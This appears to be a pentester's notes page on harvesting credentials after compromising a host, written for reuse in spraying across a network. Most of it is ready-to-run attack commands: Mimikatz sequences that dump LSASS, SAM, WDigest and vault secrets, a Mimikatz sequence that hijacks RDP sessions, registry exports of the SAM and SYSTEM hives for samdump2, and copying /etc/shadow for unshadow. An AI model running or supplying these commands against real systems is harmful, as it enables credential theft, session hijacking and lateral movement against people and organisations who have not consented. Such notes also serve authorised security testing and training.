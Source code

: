 ```yaml
---
description: >-
  After compromising a target is important to recollect the maximum credentials
  to spray them on the network.
---
```


# Get Credentials

## Looking for Interesting Files

If the target have a web  application that use a database try to find the `config.php` file in order to obtain the database connection.

Look what type of applications are installed and look for config files in order to find new pair of creds.

## Mimikatz

Dump all cached logon credentials, SAM, System, LSASS, VAULT....

```text
.\mimikatz.exe
privilege::debug 
sekurlsa::logonpasswords full
sekurlsa::wdigest
sekurlsa::credman
lsadump::sam
vault::cred
vault::list
ts::mstsc
ts::sessions



.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords full" "sekurlsa::wdigest" "sekurlsa::credman" "lsadump::sam" "vault::cred" "vault::list" "ts::mstsc" "exit"
```

## **Hijacking RDP Session**

To hijack a RDP session we need mimikatz.

```text
.\mimikatz.exe
privilege::debug
ts::sessions
ts::mstsc
token::elevate
ts::remote /id:3
```

## SAM and SYSTEM \(Win\)

You can easily dump the SAM and SYSTEM registries using the command prompt. Just open the `cmd.exe` as Administrator and run the following commands:

```text
reg save HKLM\SAM c:\windows\temp\sam
reg save HKLM\SYSTEM c:\windows\temp\system
```

Finally on our kali we just need to use `sam2dump` to get the hashes.

```text
samdump2 system sam > hashes.txt
```

## PASSWD and SHADOW \(Lin\)

Same as Windows, when we **pwn** a privilege user such as **root** we can get system users and passwords. In linux we just need to copy the following files to our attacking machine.

```text
/etc/passwd
/etc/shadow
```

Finally on our kali machine we just need to use `unshadow` to get the hashes:

```text
unshadow passwd shadow > hashes.txt
```









